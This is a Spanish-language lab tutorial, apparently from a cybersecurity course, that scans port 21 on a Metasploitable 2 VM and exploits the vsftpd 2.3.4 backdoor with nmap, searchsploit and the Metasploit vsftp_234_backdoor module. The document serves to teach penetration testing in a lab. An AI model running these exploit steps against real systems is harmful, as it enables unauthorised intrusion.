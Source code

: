 ## **Escaneo y ataque del puerto 21 con Metasploitable 2**

Comprobemos el estado de la base de datos, creemos nuestro espacio de trabajo y configuremos nuestros RHOSTS globales, para no ingresarlos en cada intento:

![Escaneo y Ataque](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/escaneo-ataque.png?raw=true)

Comenzaremos con el puerto 21, el puerto predeterminado de ftp.

Dentro del marco de metasploit, ejecutaremos un análisis del servicio nmap dirigido al puerto 21:

> > db_nmap -p 21 192.168.231.109 -A -sV -sC
> 

MSF también dispone de un módulo auxiliar para ftp:

> > use auxiliary/scanner/ftp/ftp_version
> 
> 
> *> run*
> 

![auxiliary](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/auxiliary.png?raw=true)

*Veamos los resultados de nuestro escaneo de puertos:*

# Untitled

*Veamos los resultados de nuestro escaneo de puertos:*

![resultado Puertos](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/resultado-puertos.png?raw=true)

*Disponemos de un Servidor FTP, concretamente vsFTP 2.3.4. correr. Hagamos una búsqueda en exploitDB a través de searchploit:*

> $ searchsploit vsftp

![searchsploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/searchsploit.png?raw=true)

*Como podemos ver, existe un exploit de ejecución de comandos de puerta trasera para nuestra versión de vsftp. Volvamos a MSF, busquemos el exploit, carguemoslo, veamos su información y ejecútelo:*

> grep vsftp search exploits

![grep vsftp](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/grep-vsftp.png?raw=true)

> use exploit/unix/ftp/vsftp_234_backdoor

> *show info*

![show info](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/show-info.png?raw=true)

> run

![run3](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run3.png?raw=true)
